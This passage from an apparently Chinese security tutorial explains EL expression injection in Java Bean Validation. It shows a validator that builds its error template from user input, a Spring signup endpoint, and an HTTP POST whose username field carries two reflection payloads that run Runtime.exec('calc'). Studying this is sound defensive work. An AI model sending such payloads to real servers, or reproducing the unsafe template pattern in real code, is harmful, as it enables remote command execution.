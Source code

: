 ```java
        //错误的将用户输入的信息带入构建模板中，导致EL表达式的注入。
        constraintValidatorContext.buildConstraintViolationWithTemplate("mail not exist: " + mail).addConstraintViolation();
        return false;
    }

    public void initialize(UserValidator constraintAnnotation) {}
}
```
UserValidator类
```java
import javax.validation.Constraint;
import javax.validation.Payload;
import java.lang.annotation.ElementType;
import java.lang.annotation.Retention;
import java.lang.annotation.RetentionPolicy;
import java.lang.annotation.Target;

@Target({ElementType.METHOD, ElementType.FIELD, ElementType.ANNOTATION_TYPE, ElementType.CONSTRUCTOR, ElementType.PARAMETER})
@Retention(RetentionPolicy.RUNTIME)
@Constraint(validatedBy = {UserCheck.class})
public @interface UserValidator {
    String message() default "error user";

    Class<?>[] groups() default {};

    Class<? extends Payload>[] payload() default {};
}
```
```java
@PostMapping({"/signup"})
public String signupPost(@Valid @ModelAttribute("user") User user, BindingResult bindingResult, Model model) {
    if (bindingResult.hasErrors()) {
        model.addAttribute("erroremail", Boolean.valueOf(true));
        return "signup";
    }
    return "redirect:/";
}
```
执行命令：
```
POST /valid/signup HTTP/1.1
Host: www.test.com:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 185

username=${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('calc')")}&password=123&id=121
或者
username=${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null), 'calc')}&password=123&id=12166666
```
# 参考
http://rui0.cn/archives/1043<br>
https://guokeya.github.io/post/413GsNWtr/<br>
https://mrbird.cc/SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F.html<br>
https://www.mi1k7ea.com/2020/01/10/SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/<br>